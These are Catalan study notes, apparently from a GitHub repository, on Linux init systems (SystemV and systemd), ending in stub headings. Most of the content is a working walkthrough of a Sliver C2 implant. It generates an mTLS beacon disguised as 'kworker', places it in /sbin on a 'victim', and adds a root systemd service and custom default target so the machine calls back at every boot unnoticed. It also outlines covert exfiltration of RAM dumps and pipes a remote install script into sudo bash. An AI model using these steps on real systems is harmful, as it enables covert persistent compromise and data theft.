






# SISTEMES D'INICI

## Índex

**1- SystemV vs Upstart vs Systemd**

- 1.1- Runlevels o Targets?
- 1.2- Quin el nostre SO?
  **2- SystemV**
- 2.1- Directoris
- 2.2- Procés arrencada

**3- Systemd**

- 3.1- Directoris
- 3.2- systemctl
- 3.3- dependències
- 3.4- Modificar target provisional
- 3.5- Modificar target definitiu
- 3.6- Afegir/treure serveis target
- 3.7- Creem nou target
- 3.8- Creem nou servei

---

## Conceptes

- **Kernel** -> gestiona processos
- **Aplicació** -> programa interactua usuari i executa 1r pla
- **Servei** -> programa associat SO i 2n pla
- **Procés** -> f(x) intern del SO
  - _Nota:_ Aplicacions i serveis -> generen processos (sincronitzar i planificar)

---

## 1. SystemV vs Upstart vs Systemd

## 1.1 Nivells d'execució (tasca systemd)

La meva idea principal es muntar un petit servidor C2 per a que cada vegada que inici el target, rebre una connexió.
De forma que la puc reutilitzar quan vulgui.


O sigui, persistencia mitjançant Sliver, mTLS

Crear un cire.target amb el meu nom i canviar a que sigui el per defecte.

- Per exemple copiar del default.target , que funcioni el GUI i envie el trafic al Sliver
- Que cride un .service que executara una script.
- Amb permisos root.

Comprovar amb `get-default `i `system analyze` que s'ha canviat.

### Instal·lació i configuració servidor

1. Per 'instal·lar' sliver, he fet servir el binari que proporcionen, tot i que també n'hi ha comanda de instal·lació
2. Posteriorment l'he iniciat i generat el binari que el servei que creare en la 'victima' executarà.

| Amb binari                                                                                                      | Automatic                                    |
| --------------------------------------------------------------------------------------------------------------- | -------------------------------------------- |
| `wget -qO sliver-server https://github.com/BishopFox/sliver/releases/download/v1.7.6/sliver-server_linux-amd64` | `curl https://sliver.sh/install \| sudo bash` |


Respecte el binari, l'he generat elegint mTLS perque no molta gent el coneix.
- I iniciat el 'listener'

```bash
generate --os linux beacon --mtls 192.168.203.128:853 --save kworker
```


Posterior enviat el binari a la victima vulnerada a la ruta /sbin (binari que s'haurien d'executar al boot)


I a continuacio creat el target i service, habilitant el servei i posant el bit d'execució al binari

Target en `/usr/lib/systemd/system/cire.target`

```bash
[Unit]
Description=Target personalitzat Cire
Requires=graphical.target
After=cire.service graphical.target
Wants=graphical.target
AllowIsolate=yes
```

El servei en `/etc/systemd/system/cire.service`
```bash
[Unit]
Description=Cire Init Target
Before=cire.target
After=local-fs.target

[Service]
Type=oneshot
ExecStart=/sbin/kworker
ExecStart=/sbin/ubuntu-security
User=root
Group=root
RemainAfterExit=yes

[Install]
WantedBy=cire.target
```



Un cop realitzat aixó, he canviat el default target amb 'sudo systemctl set-default cire.target'.


En reiniciar (o amb sudo systemctl isolate default.target) observo que he rebut la connexio i el client no nota res.


Com que 'beacon' fa servir tasques asincrones, aixó ho envia a una tasca cron i podem observar que tarda.




Persistència a l'arrencada (systemd): Crear un target personalitzat (cire.target) definit com a predeterminat per executar automàticament un servei amb privilegis de root en encendre la màquina.

Exfiltració oculta de memòria: Dissenyar un script o mòdul del kernel per realitzar buidatges continus de la memòria RAM i enviar-los de forma oculta a un servidor remot d'anàlisi.

Desplegament d'infraestructura C2: Instal·lar un entorn de Comandament i Control (com ara Sliver) i verificar la modificació de l'arrencada mitjançant les ordres systemctl get-default i systemd-analyze.

Per a que l'estreaming funcioni en wayland (per les seves proteccions d'acces) he hagut de primer instal·lar les següents dependencies:
```bash
sudo apt install ffmpeg pipewire wireplumber xdg-desktop-portal xdg-desktop-portal-gnome -y
```




### Gen

En

## 1.2. Quin es el nostre SO

---

## Comandes d'aturada

- `/etc/init.d/cron stop`
- `service cron stop`
- `systemctl stop cron`
